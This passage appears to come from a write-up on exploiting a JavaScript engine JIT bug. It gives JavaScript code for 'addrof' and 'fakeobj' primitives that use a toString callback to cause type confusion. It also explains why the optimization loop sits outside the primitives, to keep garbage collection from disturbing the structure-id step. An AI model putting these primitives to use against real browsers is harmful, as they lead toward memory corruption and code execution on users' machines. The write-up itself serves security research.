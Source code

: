 ```js

    addr = i2f(addr);
    let arr = new Array(noCoW, 2.2, 3.3);

    let evil = {
        // vuln callback
        toString: () => {
            arr[0] = {};
        }
    }

    FakeObjFoo(arr, evil, addr);
    return arr[0];
}
```

It should be pointed out that there are two small tricks in the upper code. 

One is that the `for` loop is not included into the `AddrOf` and `FakeObj` primitive functions . According to the method show as below (include the `for` loop into the primitives), it can achieve the `addr of` and `fake obj` fucntions too. But if we do like that, every time the primitive is called, the `for` loop will be executed once, which will cause the garbage collection to be triggered frequently. This leads to error in obtaining `structure id` with building the fake object later. So I figured out the way to put the `for` loop outside the primitives, and it will only call the `for` loop once at the initial time.

```js
 // addr_of primitive with vuln
function AddrOf(obj) {

    let arr = [1.1, 2.2, 3.3];

    function AddrOfFoo(arr, cmpObj)
    {
        arr[1] = 1.1;
        cmpObj == 2.2;  // trigger callback
        return arr[0];
    }

    // optimize compile AddrOfFoo
    for( let i=0; i<MAX_ITERATIONS; i++ ) {
        AddrOfFoo(arr, {});
    }

    let evil = {
        // vuln callback
        toString: () => {
            arr[0] = obj;
        }
    }

    let addr = AddrOfFoo(arr, evil);
    return f2i(addr);
}
```

